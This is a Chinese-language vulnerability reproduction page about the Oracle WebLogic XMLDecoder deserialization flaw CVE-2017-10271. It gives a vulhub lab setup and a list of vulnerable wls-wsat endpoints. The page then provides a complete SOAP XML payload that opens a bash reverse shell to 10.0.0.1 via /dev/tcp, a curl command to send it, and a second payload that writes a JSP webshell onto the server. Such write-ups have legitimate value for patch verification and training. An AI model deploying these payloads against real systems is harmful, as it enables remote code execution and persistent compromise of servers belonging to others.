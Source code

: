 ```yaml
---
Title: Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271
---
```


# Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞影响

<a-checkbox checked>Weblogic 10.3.6.0.0</a-checkbox></br>

<a-checkbox checked>Weblogic 12.1.3.0.0</a-checkbox></br>

<a-checkbox checked>Weblogic 12.2.1.0.0</a-checkbox></br>

<a-checkbox checked>Weblogic 12.2.1.2.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

## 漏洞复现

对 `http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType` 进行访问，存在这个url则可能存在漏洞

```plain
其他可利用URL
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```



![img](../../../.vuepress/public/img/1627121799661-ca884d56-40fb-4015-9cf7-8f063f54c226.png)



使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```

![img](../../../.vuepress/public/img/1627121810346-55dfbfba-e4c8-4ca9-9127-ce8784853ee9.png)

也可以通过漏洞写入webshell文件

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞POC

<a-alert type="success" message="利用 weblogic-scan快速检测: https://github.com/kingkaki/weblogic-scan" description="" showIcon>
</a-alert>

![img](../../../.vuepress/public/img/1627121824779-68a323a2-b88c-447e-b841-d294c65f8dae.png)